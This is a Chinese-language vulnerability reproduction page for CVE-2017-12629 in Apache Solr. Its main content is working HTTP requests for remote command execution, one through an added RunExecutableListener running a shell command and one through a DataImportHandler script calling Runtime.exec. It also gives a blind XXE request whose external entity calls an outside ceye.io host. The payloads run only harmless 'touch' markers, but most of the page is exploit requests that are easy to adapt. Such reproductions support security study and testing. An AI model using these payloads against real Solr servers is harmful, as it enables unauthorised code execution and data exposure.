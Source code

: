 （CVE-2017-12629）Apache Solr rce&xxe 漏洞
==========================================

一、漏洞简介
------------

二、漏洞影响
------------

Redhat Single Sign-On 7.0+ Redhat Linux 6.2 E sparc+ Redhat Linux 6.2 E i386+ Redhat Linux 6.2 E alpha+ Redhat Linux 6.2 sparc+ Redhat Linux 6.2 i386+ Redhat Linux 6.2 alphaRedhat JBoss Portal Platform 6Redhat JBoss EAP 7 0Redhat Jboss EAP 6Redhat JBoss Data Grid 7.0.0Redhat Enterprise Linux 6+ Trustix Secure Enterprise Linux 2.0+ Trustix Secure Linux 2.2+ Trustix Secure Linux 2.1+ Trustix Secure Linux 2.0Redhat Collections for Red Hat Enterprise Linux 0Apache Solr 6.6.1Apache Solr 6.6Apache Solr 6.5.1Apache Solr 6.5Apache Solr 6.4Apache Solr 6.3Apache Solr 6.2Apache Solr 6.6Apache Solr 6.3Apache Solr 6.0Apache Lucene 0

三、复现过程
------------

### rce 姿势一

-   首先创建一个listener，其中设置exe的值为我们想执行的命令，args的值是命令参数：

```{=html}
<!-- -->
```
    POST /solr/demo/config HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.100 Safari/537.36
    Accept: */*
    Accept-Encoding: gzip, deflate
    Accept-Language: zh-CN,zh;q=0.9
    Connection: close
    Content-Length: 158

    {"add-listener":{"event":"postCommit","name":"newlistener","class":"solr.RunExecutableListener","exe":"sh","dir":"/bin/","args":["-c", "touch /tmp/success"]}}

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId25.png)

在solr管理界面新建了listen

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId26.png)

-   然后进行update操作，触发刚才添加的listener：

```{=html}
<!-- -->
```
    POST /solr/demo/update HTTP/1.1
    Host: 10.0.83.79:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 15

    [{"id":"test"}]

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId27.png)

### rce 姿势二

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId29.png)

如上图所示，首先打开刚刚创建好的`test`核心，选择Dataimport功能并选择debug模式，填入以下POC：

    <dataConfig>
      <dataSource type="URLDataSource"/>
      <script><![CDATA[
              function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
              }
      ]]></script>
      <document>
        <entity name="stackoverflow"
                url="https://stackoverflow.com/feeds/tag/solr"
                processor="XPathEntityProcessor"
                forEach="/feed"
                transformer="script:poc" />
      </document>
    </dataConfig>

点击`Execute with this Confuguration`会发送以下请求包：

payload(这里我直接填无法命令执行替换如下payload)

    POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
    Host: 10.0.83.79:8983
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: application/json, text/plain, */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-type: application/x-www-form-urlencoded
    X-Requested-With: XMLHttpRequest
    Content-Length: 679
    Connection: close
    Cookie: csrftoken=gzcSR6Sj3SWd3v4ZxmV5OcZuPKbOhI6CMpgp5vIMvr5wQAL4stMtxJqL2sUE8INi; sessionid=snzojzqa5zn187oghf06z6xodulpohpr

    command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId30.png)

### xxe

由于返回包中不包含我们传入的XML中的信息，所以这是一个Blind
XXE漏洞，我们发送如下数据包（自行修改其中的XXE Payload）：

    GET /solr/demo/select?q=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%0A%3C%21DOCTYPE%20root%20%5B%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A//xxe.rqe94e.ceye.io/%22%3E%0A%25remote%3B%5D%3E%0A%3Croot/%3E&wt=xml&defType=xmlparser HTTP/1.1
    Host: your-ip:8983
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

使用`ceye`

发送payload

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId32.png)

ceye接收

![](/Users/aresx/Documents/VulWiki/.resource/(CVE-2017-12629)ApacheSolrrce&xxe漏洞/media/rId33.png)

参考链接
--------

> https://wh0ale.github.io/2019/08/26/Apache-Solr安全问题/
